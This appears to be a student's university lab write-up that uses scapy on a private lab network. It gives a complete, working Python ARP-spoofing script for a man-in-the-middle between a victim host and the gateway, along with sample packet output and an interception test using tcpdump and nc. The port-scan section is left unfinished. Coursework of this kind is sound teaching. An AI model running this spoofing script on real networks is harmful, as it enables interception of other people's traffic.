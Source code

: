 # Secure Admin Tools - Lab IV

## ARP Poisoning and Portscan

Install scapy with all main dependancies
```bash
sudo apt install python3-scapy
```

Start scapy
```bash
sudo scapy3
```

> It took me fucking 6 hours to understand and getting things ready for using this fucking shit of a fucking tool mother fucker, I am so pissed !!

To simplify all the usage: We have got differenct python Classes for different packet types. At first we are going to create a Ethernet packet followed by a ARP packet. To append two layers, we will use the operator / 
 
To show all available fields of a packet we can use the function list(PACKET) where PACKET can be Ether or ARP or anything else available. 

At first we will use the command `arp -a` to list the local arp table of our server

```console
nichil@secat-02:~$ arp -a
? (192.168.130.1) at 00:50:56:c0:00:08 [ether] on ens33
? (192.168.130.128) at 00:0c:29:3a:31:c6 [ether] on ens33
_gateway (192.168.130.2) at 00:50:56:e3:fb:3c [ether] on ens33
```

> enable packet forwarding so the spoofed packets can be forwarded accordingly `echo 1 > /proc/sys/net/ipv4/ip_forward`

Let's build up a broadcast ARP request

```python
>>> arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
>>> arpbc.show()
###[ Ethernet ]###
  dst= ff:ff:ff:ff:ff:ff
  src= 00:0c:29:3a:31:c6
  type= 0x806
###[ ARP ]###
     hwtype= 0x1
     ptype= 0x800
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 00:0c:29:3a:31:c6
     psrc= 192.168.130.128
     hwdst= None
     pdst= 192.168.130.2

>>> response=srp(arpbc, timeout=2)
Begin emission:
...Finished sending 1 packets.
*
Received 4 packets, got 1 answers, remaining 0 packets
>>> response
(<Results: TCP:0 UDP:0 ICMP:0 Other:1>,
 <Unanswered: TCP:0 UDP:0 ICMP:0 Other:0>)
>>> response[0]
<Results: TCP:0 UDP:0 ICMP:0 Other:1>
>>> response[0][0]
(<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>,
 <Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>)
>>> response[0][0][0]
<Ether  dst=ff:ff:ff:ff:ff:ff type=0x806 |<ARP  op=who-has pdst=192.168.130.2 |>>
>>> response[0][0][1]
<Ether  dst=00:0c:29:3a:31:c6 src=00:50:56:e3:fb:3c type=0x806 |<ARP  hwtype=0x1 ptype=0x800 hwlen=6 plen=4 op=is-at hwsrc=00:50:56:e3:fb:3c psrc=192.168.130.2 hwdst=00:0c:29:3a:31:c6 pdst=192.168.130.128 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>
>>> response[0][0][1].hwsrc
'00:50:56:e3:fb:3c'
```

So we can shorten this down to following code lines for both gateway and target server

```
# gateway
arpbc=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op="who-has", pdst="192.168.130.2")
arpbcrsp=srp(arpbc)
arpbcrsp[0][0][1].hwsrc

```

Knowing this information we can write a short script to spoof ARP continiously

```python
from scapy.config import conf
from scapy.layers.l2 import ARP, Ether
from scapy.sendrecv import srp, sendp, send
from time import sleep

__author__ = "Nichil Strasser"
__email__ = "nichil.strasser@gmail.com"


def main():
    conf.verb = False
    spoof_ip = "192.168.130.2"
    spoof_mac = get_mac(spoof_ip)
    victim_ip = "192.168.130.129"
    victim_mac = get_mac(victim_ip)

    try:
        print("Sending spoofed arp")
        while True:
            spoof(victim_ip=victim_ip, spoof_ip=spoof_ip, sppof_mac=spoof_mac)
            spoof(victim_ip=spoof_ip, spoof_ip=victim_ip, sppof_mac=victim_mac)
            sleep(1)

    except KeyboardInterrupt:
        print("Healing victim")
        heal_victim(victim_ip, victim_mac, spoof_ip, spoof_mac)
        heal_victim(spoof_ip, spoof_mac, victim_ip, victim_mac)


def heal_victim(tip, tmac, sip, smac):
    packet = ARP(op="is-at", pdst=tip, hwdst=tmac, psrc=sip, hwsrc=smac)
    send(packet)


def spoof(victim_ip, spoof_ip, sppof_mac):
    faulty_arp_reply = ARP(op="is-at", psrc=spoof_ip, pdst=victim_ip, hwdst=sppof_mac)
    send(faulty_arp_reply)


def get_mac(ip):
    arp_broadcast = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(op="who-has", pdst=ip)
    arp_broadcast_response = srp(arp_broadcast)
    return arp_broadcast_response[0][0][1].hwsrc


if __name__ == "__main__":
    main()


```

In order to test the spoofing I am going to use tcpdump and nc. I will listen on Port 6969 on theMachine and open a connection from secat-02 to theMachine on Port 6969. As the Mac address on the ARP table of secat-02 for the gateway got swapped with mine, I will receive the messages sent over port 6969 on secat-01 which is the MITM in this scenario. The packets will be forwarded because I have enabled ipv4 forwarding. The packets are captured with tcpdump using the -X arg to see ASCII encoded data. 

![arp_spoof_proof.PNG](arp_spoof_proof.PNG)


## Portscan

Login to its.fh-campuswien.ac.at is the one which was set in lab3

... tbc